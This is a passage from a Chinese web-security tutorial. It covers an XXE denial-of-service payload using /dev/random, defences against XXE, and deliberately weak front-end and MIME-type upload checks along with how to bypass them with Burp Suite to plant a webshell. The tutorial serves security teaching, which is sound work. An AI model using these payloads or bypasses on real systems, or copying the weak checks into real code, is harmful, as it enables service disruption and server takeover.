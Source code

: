 也可以使用 /dev/random 造成 DoS 攻击：

```xml
<?xml version="1.0"?>
<!DOCTYPE message [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///dev/random" >]>
<message>
    <user>&xxe;</user>
</message>
```
/dev/random 是 Linux 系统中提供的随机伪设备，提供永不为空的随机字节数据流。

**防护**    

* 尽可能使用简单的数据格式存储和和传输数据，如 json，避免对敏感数据进行序列化
* 及时修复和更新应用程序或操作吸引使用的 XML 处理器和库
* 在 XML 解析器中禁用外部实体和 DTD 进程
* 在服务器端使用白名单进行过滤和验证

## 2.6 文件上传漏洞

### 前端检验

```js
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    //定义允许上传的文件类型
    var allow_ext = ".jpg|.png|.gif";
    //提取上传文件的类型
    var ext_name = file.substring(file.lastIndexOf("."));
    //判断上传文件类型是否允许上传
    if (allow_ext.indexOf(ext_name + "|") == -1) {
        var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
        alert(errMsg);
        return false;
    }
}
```

将 Webshell 后缀改为 .jpg，上传 Webshell，使用 Burpsuite 抓包，修改文件后缀为 .php 即可绕过。

### MIME 类型检验

```php
<?php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') || ($_FILES['upload_file']['type'] == 'image/gif')) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name']            
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '文件类型不正确，请重新上传！';
        }
```
